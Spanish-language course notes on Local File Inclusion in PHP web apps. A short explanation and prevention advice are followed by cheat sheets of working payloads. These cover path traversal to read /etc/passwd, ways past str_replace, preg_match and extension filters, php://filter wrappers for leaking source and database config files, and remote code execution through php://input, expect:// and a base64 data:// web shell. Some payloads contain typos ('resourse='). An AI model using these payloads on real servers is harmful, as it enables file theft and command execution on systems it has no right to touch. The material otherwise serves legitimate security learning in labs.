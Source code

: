 # LFI

Tags: #LFI 


La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

- **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
- [Lab-LFI](https://github.com/NetsecExplained/docker-labs)

```bash 
LFI  --> Incluyes archivos locales de la maquina como:
	1. /etc/passwd
	2. /etc/hosts
	3. /etc/hostname 

# Debemos de tener un parametro '?page=' para poder ver si existe el LFI

1. Se encuentran en CMS (Gestores de contenido) como WordPress
2. Plugins 

En el LFI podemos usar:
1. 'Path Traversal' para evadir algunos filtros 
2. Wrappers
```

## Path Traversal 

```bash 
❯ /etc/passwd                       # Desde la raiz cargamos el archivo 
❯ ../../../../etc/passwd            # Nos salimos de el dir y apuntamos al archivo 
❯ ....//....//....//etc/passwd      # Evitamos el filtro de 'str_replace' 

# Evitar el filtro 'preg_match' colocando barras y puntos
❯ /etc/////passwd                   # Colocar muchas barras hacer que no haga match 
❯ /etc//./passwd                              

# Si fuera un comando como 'cat' podriamos usar '?' para evadir el 'preg_match'
❯ /et?//??sswd 
❯ /??c/pas??? 

# Cuando se concatena una extension como '.php' al archivo a buscar, podemos usar un NULL Byte, esto sirve en versiones menores a 5.3 en PHP.
❯ /etc/passwd%00                    # Forma de colocar un 'Null Byte'

# Cuando existe un 'substr' en el codigo que hace match con alguna extension, podemos evadir el match de la siguiente manera
❯ /etc/test.txt/.                   # Colocaremos '/.' al final para que no exista el match con la extension '.txt'               
```

## Wrappers en la URL de la Web

```bash 
# Los Wrappers nos ayudan a interpretar el codigo y no a ejecutarlo 
# Archivos importantes que podemos encodear con el filtro 
a) index.php
b) admin/db_connect.php


1. # Este filtro nos ayuda a representar el contenido en base64 el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/convert.base64-encode/resourse=
	❯ cat data | base64 -d | sponge data 
	# d = decodear la base64 
	# sponge = Para ingresar el output en el mismo archivo llamado 'data'

2. # Este wrapper rota cada caracter en 13 posiciones el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/read=string.rot13/resource=
	❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'   # Debemos de empezar con la primer letra que nos aparezca en el output y en la segunda parte colocarnos en la treceaba posicion 

3. # Conversion a nivel de encoding para que no sea interpretado y se muestre en la web
❯ php://filter/convert.iconv.utf-8.utf-16/resource=
```

## Wrappers para hacer un RCE

```bash
# Metodo POST
❯ php://input                   # Debemos de cambiar la peticion a POST en 'Burpsuite' para lograr mandar comandos 
	<?php system('whoami'); ?> # Esto debe de ir en el cuerpo de 'Burpsuite' o el siguiente:
	<?php system($_GET["cmd"]); ?>


# Metodo GET
❯ expect://whoami               # Este wrapper ayuda a inyectar comandos 


# En este wrapper debemos de pasarle una cadena en base64, la cadena es el php de arriba que tiene system(GET)
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami
	# + = %2b

# Si la cadena esta en base64, con este wrapper podemos decodificarlo
❯ php://filter/convert.base64-decode/resourse=
# Si al momento de usar el wrapper pasado nos regresa un error, podemos hacer lo siguiente:
❯ php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=
```